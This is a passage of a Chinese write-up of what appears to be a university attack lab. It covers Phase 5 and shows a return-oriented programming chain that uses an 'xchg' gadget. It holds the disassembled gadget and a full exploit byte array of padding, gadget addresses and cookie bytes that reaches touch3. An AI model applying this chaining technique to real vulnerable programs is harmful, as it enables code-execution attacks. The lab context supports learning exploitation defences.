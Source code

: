 至此 `Phase 5` 已经完成。

>但是回到上文说到的 `91  xchg` 指令，它的效果是交换 `%eax` 和 `%ecx`，而刚才的答案中，用上了 `movl %eax,%edx` 和 `movl %edx,%ecx`，两个指令实现了 `%eax` 向 `%ecx` 的转移，是否可以使用一个 `xchg` 指令来代替这两个呢？

找到 `xchg` 指令的地址

```asm
0000000000401a6e <setval_167>:                                  
  401a6e:   c7 07 89 d1 91 c3       movl   $0xc391d189,(%rdi)
  401a74:   c3                      ret                
        # 401a72:   91  xchg %eax,%ecx
        # 401a73:   c3  ret
```

尝试使用 `0x401a72` 地址，代替上述两个 `movl` 指令，因为少了一个指令所以偏移量 `- 0x8`，得到输入串如下：

```c
buf[40] = { /* Phase 5 ver 2 */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,    /*  padding */
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90,
    0x06, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 1 */
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 2 */
    0xAB, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 3 */
    0x40, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  offset  */  
    0x72, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 4 & 5*/
    0x27, 0x1A, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 6 */  
    0xD6, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 7 */  
    0xA2, 0x19, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /* gadget 8 */  
    0xFA, 0x18, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00,    /*  touch3  */
    0x35, 0x39, 0x62, 0x39, 0x39, 0x37, 0x66, 0x61     /*  cookie  */
};
```

尝试提交

![Phase5_pic2](./Screenshots/Phase5_pic2.png)

成功，这个答案比上一个答案少了一个 `gadget`，少了一行的输入。

综上全部的 `Phase` 都已经完成
